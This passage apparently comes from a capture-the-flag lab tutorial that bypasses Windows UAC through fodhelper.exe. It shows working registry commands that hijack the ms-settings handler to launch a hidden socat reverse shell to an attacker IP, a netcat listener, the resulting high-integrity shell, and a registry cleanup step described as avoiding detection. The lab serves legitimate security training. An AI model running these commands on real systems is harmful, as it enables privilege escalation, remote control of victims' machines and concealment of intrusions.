 Command Prompt

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```

Notice how we need to create an empty value called **DelegateExecute** for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.

We set up a listener by using netcat in our machine:

`nc -lvp 4444`  

And then proceed to execute **fodhelper.exe**, which in turn will trigger the execution of our reverse shell:  

|                                                        |     |                                                                                                                                                                                                                                                                                                                                                                                                  |
| ------------------------------------------------------ | --- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Command Prompt<br><br><br>`C:\> fodhelper.exe`<br><br> | ➜   | Attacker's Shell<br><br>user@kali$ nc -lvp 4444      <br>Listening on 0.0.0.0 4444<br>Connection received on 10.10.183.127 49813<br>Microsoft Windows [Version 10.0.17763.1821]<br>(c) 2018 Microsoft Corporation. All rights reserved.<br><br>C:\Windows\system32>whoami /groups \| find "Label"<br>Mandatory Label\High Mandatory Level                          Label            S-1-16-12288 |
|                                                        |     |                                                                                                                                                                                                                                                                                                                                                                                                  |

The received shell runs with high integrity, indicating we have successfully bypassed UAC.

To retrieve the fodhelper flag, use your new shell to execute:  

Administrator: Command Prompt

```shell-session
C:\> C:\flags\GetFlag-fodhelper.exe
```

**Note: Keep in mind that the flag will only be returned if you successfully bypassed UAC via fodhelper and only from the resulting high integrity shell.**

  

### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system in the form of registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

**Note: Be sure to execute the given command to avoid any artefact interfering with the following tasks.**
